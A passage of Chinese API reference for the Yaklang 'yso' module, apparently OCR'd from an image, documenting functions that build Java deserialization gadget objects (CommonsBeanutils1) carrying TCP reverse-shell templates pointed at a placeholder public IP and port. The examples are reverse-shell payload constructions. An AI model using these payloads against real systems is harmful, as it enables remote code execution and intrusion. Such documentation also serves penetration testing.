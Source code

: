 ### 基础用法

设置生成TcpReverseShell类的模板

```yaklang
host = '公网IP'
yso.GetCommonsBeanutils1JavaObject(yso.useTcpReverseShellTemplate(),yso.tcpReverseShellHost(host),yso.tcpReverseShellPort(8080))
```

## 96. `yso.useTcpReverseTemplate`

## 功能描述

设置生成TcpReverse类的模板，配合tcpReverseHost和tcpReversePort使用，需要配合tcpReverseToken使用。

## 参数说明

```
func useTcpReverseTemplate() => GenClassOptionFun
```

**请求参数**

- `无` : 无

**返回类型**

- `r1` : 返回一个GenClassOptionFun类型的值，用于设置生成TcpReverse类的模板

## 示例代码

### 基础用法

设置生成TcpReverse类的模板示例

```yaklang
host = '公网IP'
token = uuid()
yso.GetCommonsBeanutils1JavaObject(yso.useTcpReverseTemplate(), yso.tcpReverseHost(host), yso.tcpReversePort(8080), yso.tcpReverseToken(token))
```

## 97. `yso.useTemplate`

## 功能描述

设置要生成的类类型

## 参数说明

```
func useTemplate(t: ClassType) => => GenClassOptionFun
```
